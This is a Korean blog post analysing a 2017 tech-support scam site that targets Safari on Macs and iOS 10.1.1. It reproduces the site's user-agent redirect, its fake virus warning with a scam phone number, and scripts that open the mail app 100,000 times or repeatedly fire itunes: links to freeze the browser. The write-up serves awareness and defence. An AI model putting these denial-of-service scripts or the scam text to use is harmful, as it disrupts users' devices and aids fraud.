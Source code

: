 ```yaml
---
layout: post
title: Scam Page triggers DoS attack on some apple product(?)
date: 2017-01-08 14:47:36.000000000 +09:00
type: post
published: true
status: publish
categories:
- Malware Analysis
tags: []
author:
  login: n0fate
  email: rapfer@gmail.com
  display_name: n0fate
---
```


*딱히 쓸만한 제목이 없어서 제목은 원 글 내용을 따옴*

@qingfro9이 보내준 말웨어 바이트 링크(감사!)인 [Tech support scam page triggers denial-of-service attack on Macs](https://blog.malwarebytes.com/101/mac-the-basics/2017/01/tech-support-scam-page-attempts-denial-of-service-via-mail-app/) 를 보고 확인 중에 아직 살아 있는 사이트(hxxp://safari-get.net)이 있길래 curl로 급하게 긁어와서 정리함.
일단 이 녀석은 `UserAgent`가 `OS 10.1.1` 버전인 운영체제를 대상으로 하는 DoS 취약점임. 링크에서는 맥이라고 써있는데 iOS 10.1.1도 대상인 것 같음. 최신 버전으로 업데이트하면 문제는 해결.

## 스테이지 1
일단 사이트에 접속하면 `index.html` 페이지가 당신을 반김. 이 페이지는 특별한건 없고 접속한 클라이언트 정보를 수집해 통계 정보를제공하는 구글 애널리틱스(google analytics) 코드가 있고, 아래는 웹 브라우저의 사용자 에이전트 정보를 찾아 운영체제 버전을 식별, 리다이렉션 함.

```javascript
	  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
	  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
	  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
	  })(window,document,'script','https://www.google-analytics.com/analytics.js','ga');

	  ga('create', 'UA-73784359-12', 'auto');
	  ga('send', 'pageview');

	if ((navigator.userAgent.match(/OS 10.1.1/i))) {
	   location.replace("hxxp://safari-get.com/11.php");
	} else
	{
	location.replace("hxxp://safari-get.com/10.html");}

```

링크 누르면 납치당하니 좀 수정함.코드를 보면, `OS 10.1.1`, 인 경우, 즉, 아이폰 버전이 10.1.1인 경우 `11.php`로 리다이렉션하고 그 외는 `10.html` 로 리다이렉션함.

## 스테이지 2

### OS 10.1.1이 아닌 경우
일단 `10.html`은 다음과 같음.

```html

	Warning Safari Crashed!!
	 Your Apple Device May Have Adware/Spyware Virus.

	 Call<font size="35px">+1-844-423-2465</font>
immediately to connect with Apple Technical Support for installing the Protection Software. chat logs.

DATA AT RISK:

Your credit card details and banking information.Your e-mail passwords and other account passwords.Your Facebook, Skype, AIM, ICQ and other
<font size="20px">

Your private photos, family photos and other sensitive files.Your webcam could be accessed remotely by stalkers with a VPN virus.
</font>

```

사파리에 출력하는 메시지. 영어 잘 못하는 내가 봐도 문법이 이상함. 여튼 해킹 당했음이라는 메시지인데 이걸 나중에 메일 제목에도 넣음. 아래는 애플 메일 앱을 띄우는 스크립트 코드임.

```html
	jQuery('#result').append('');
```

RFC2638와 [애플 가이드라인](https://developer.apple.com/library/content/featuredarticles/iPhoneURLScheme_Reference/MailLinks/MailLinks.html)을 준수한 코드임. 내용은 다음과 같음.

* 수신자 : `foo@example.com`
* 메일 내용 : Apple Tech Support !
* 참조 : `bar@example.com`
* 제목 : Warning! Virus Detected! Immediately Call ~~~~

그냥 이것만 띄우는 것이면 DoS가 아니지. 이걸 10만번 띄우는 스크립트 코드는 아래에 있음.

```html
	 document.querySelector('a').click(0);

	 for(var i=0;i<100000;i++){
	 	 if(i>0) {

		 document.querySelector('a').click();
		 for(var x=0;x<10000;x++){
		 console.log();
		 }

	} else {
	    document.querySelector('a').click();
	    for(var x=0;x<100000;x++){
		 console.log();
	}
```

메일 보내는 창을 10만번 출력함. 악성코드 걸려서 정보 다털리는건 아니지만 걸리면 짜증날 듯. 시에라 가장 최근버전인 10.12.2에서 확인해보니 경고창을 보여주는 것으로 처리함. (위 링크에 스크린샷 있음). 아이폰에서는 무한로딩.

### OS 10.1.1 인 경우(ex. iOS 10.1.1)
10.1.1 버전인 경우 아이튠즈를 이용함. 핵심 내용은 다음과 같음.

```javascript

	jQuery('#result').append('.');
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	document.querySelector('a').click();
	[..SNIP..]

```

핵심은 `itunes:문자열(단순한 hello임)`인데 맥에서 테스트해보면 아이튠즈를 한번만 띄움. 아이튠즈 앱 자체가 여러개 뜨는 구조가 아니기 때문인 듯.
아이폰의 경우에는 에러 메시지를 계속 발생시켜서 사파리를 사용불능 상태로 만듬. 문제를 해결하려면 단순히 사파리앱을 껐다가 키는 걸론 안되고, 설정->사파리-> `방문 기록 및 웹 사이트 데이터 지우기`를 선택해서 사파리 내역을 완전 삭제해야 함.

### 추가
`10.html` 코드를 curl로 긁다보니 다음과 같은 코드도 긁혔음.

```bash
	Editing:  
	/home/safarmcl/public_html/port-safari.net/ios.html
	 Encoding:    Re-open Use Code Editor     Close  Save Changes
```

`safari-get.net` 사이트 자체가 실제 운영보다는 테스트용 서버인지 에디팅 경고 메시지가 나타난 그대로 html 파일을 저장하였음. 실제 코드는 아이폰에서 정상작동되지 않음.

## 결론
맥, 아이폰이라고 신난다고 불법 사이트 돌아다니면 뒷통수 맞을 수 있으니 조심히 쓰자.
